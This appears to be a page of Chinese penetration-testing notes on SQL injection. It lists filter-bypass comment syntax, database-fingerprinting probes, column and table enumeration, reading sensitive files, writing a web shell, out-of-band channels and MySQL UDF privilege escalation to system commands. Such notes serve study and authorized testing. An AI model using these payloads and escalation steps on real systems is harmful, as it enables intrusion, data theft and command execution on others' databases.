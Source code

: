 • #
• --+
• /*xxx*/
• /*!xxx*/
• /*!50000xxx*/

**判断过滤规则**

• 是否有 trunc

• 是否过滤某个字符

• 是否过滤关键字

• slash 和编码  

**获取信息**

• 判断数据库类型
	– and exists (select * from msysobjects ) > 0 access 数据库
	– and exists (select * from sysobjects ) > 0 SQLServer 数据库
• 判断数据库表
	– and exsits (select * from admin)
• 版本、主机名、用户名、库名
• 表和字段  

​	– 确定字段数

​		\* Order By
​		\* Select Into
– 表名、列名  

**测试权限**

• 文件操作
	– 读敏感文件
	– 写 shell
• 带外通道
	– 网络请求  

**1.3 权限提升**

**UDF提权**

UDF（User Defned Function，用户自定义函数）是 MySQL 提供的一个功能，可以通过编写 DLL 扩展为MySQL 添加新函数，扩充其功能。
当获得 MySQL 权限之后，即可通过这种方式上传自定义的扩展文件，从 MySQL 中执行系统命令。  

详见：https://blog.csdn.net/qq_44159028/article/details/121193134

**1.4 数据库检测**

**MySQL**

• sleep sleep(1)
• benchmark BENCHMARK(5000000, MD5('test'))
• 字符串连接
	– SELECT 'a' 'b'
	– SELECT CONCAT('some','string')
• version
	– SELECT @@version
	– SELECT version()
• 识别用函数
	– connection_id()  
